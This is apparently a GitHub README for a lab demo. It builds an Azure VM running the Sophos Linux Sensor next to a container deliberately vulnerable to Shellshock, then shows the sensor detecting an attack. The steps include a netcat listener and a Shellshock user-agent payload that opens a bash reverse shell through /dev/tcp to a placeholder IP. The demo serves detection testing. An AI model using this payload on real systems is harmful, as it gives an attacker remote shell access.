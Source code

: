 # SophosLinuxSensor-Demo

## Author

* Github: [@spence-rat](https://github.com/spence-rat)
* LinkedIn: [@Spencer_Brown](https://www.linkedin.com/in/spencerbrowntx/)

## About
This repository seeks to build an image to Azure via Hashicorp Packer.
When a virtual machine is build off the image, it will already have the Sophos Linux Sensor running, as well as a docker container hosting
a http page vulnerable to shellshock RCE.

## Steps

Requirements:
You will need the deb packages for the Sophos Linux Sensor placed in files/SLS (Provided by your Sophos Representative). 

## Packer
1. Adjust variables for your environment in variables.json
2. Adjust Sophos Central ID in SLS-env.sh
3. packer build --var-file=variables.json ubuntu.json
 
## Azure
1. Create a Network Security Group in Azure via CLI: az network nsg create --resource-group NAME_OF_RESOURCE_GROUP --location REGION --name NAME
2. Allow port 8080: az network nsg rule create --resource-group vse_east_rg --nsg-name opendev_nsg --name allow8080 --protocol tcp --priority 100 --destination-port-range 8080
3. Create the VM: az vm create --resource-group RESOURCE_GROUP --name NAME_OF_VM --admin-username ADMIN_USERNAME --admin-password "ADMIN_PASSWD" --image SLS-ubuntu --vnet-name YOUR_VNET --subnet YOUR_SUBNET --public-ip-sku Basic  --nsg NAME_OF_NSG_FROM_STEP_ONE
4. Record Public IP of VM for next steps.

## In a machine with Burp Suite installed.
1. Set up a reverse listener (ex. nc -lvnp 1234)
2. Set up Burp Suite to intercept requests.
   How to article: https://www.linuxfordevices.com/tutorials/linux/burpsuite-with-firefox
3. Visit http://IPofVM:8080/victim.cgi
4. Adjust user-agent in request to:
   () { ignored;};/bin/bash -i >& /dev/tcp/YOURIPADDRESS/PORTNUMBER 0>&1
   Make sure that the vm in azure can reach your ip address and the port is accessible.
5. Return to your reverse listener - you now have an interactive shell.
6. Login to your Azure VM and type in journalctl -u sophoslinuxsensor
7. The stdout of the Sophos Linux Sensor shows us an alert for Suspicious Interactive Shell!

## Screenshots


![image](https://user-images.githubusercontent.com/82817752/181119596-5b8959e7-62be-4999-872c-a446242ab876.png)

![image](https://user-images.githubusercontent.com/82817752/181119651-42fe7813-1482-4976-aeca-22cfe262dff6.png)

![image](https://user-images.githubusercontent.com/82817752/181119681-eab5fc1c-5f72-49db-88b5-a467c6ba17e2.png)

## Show your support

Give a ⭐️ if this project helped you!

## References
https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
